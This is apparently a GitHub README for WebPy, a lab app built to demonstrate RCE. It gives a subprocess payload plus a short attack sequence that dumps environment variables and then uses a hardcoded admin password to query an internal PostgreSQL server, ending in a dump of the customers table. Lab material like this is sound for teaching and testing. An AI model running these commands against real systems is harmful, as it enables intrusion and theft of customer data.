 # WebPy

WebPy is a web-based Python interpreter designed to demonstrate and mitigate
Remote Code Execution (RCE) vulnerabilities.

## Install dependencies

```bash
pip install -r requirements.txt
```

## Execute the app

```bash
gunicorn -w 4 -b 0.0.0.0:80 app:app
```

## Restore database

```bash
kubectl cp ./database.sql <pod-name>:/tmp/database.sql
kubectl exec -it <pod-name> -- psql -U admin -d webpydb -f /tmp/database.sql
```

## Payload

```python
import subprocess
result = subprocess.run('whoami', shell=True, capture_output=True, text=True)
print(result.stdout)
print(result.stderr)
```

## List of shell commands to execute

```bash
env
apt install postgresql-client -y
PGPASSWORD=p@ssword123 psql -U admin -h 10.105.253.110 -p 5432 -d postgres -c "\l"
PGPASSWORD=p@ssword123 psql -U admin -h 10.105.253.110 -p 5432 -d postgres -d webpydb -c "\dt"
PGPASSWORD=p@ssword123 psql -U admin -h 10.105.253.110 -p 5432 -d postgres -d webpydb -c "SELECT * FROM executions;"
PGPASSWORD=p@ssword123 psql -U admin -h 10.105.253.110 -p 5432 -d postgres -d webpydb -c "SELECT * FROM customers;"
```

## References

https://kubernetes.io/docs/concepts/services-networking/service/#environment-variables
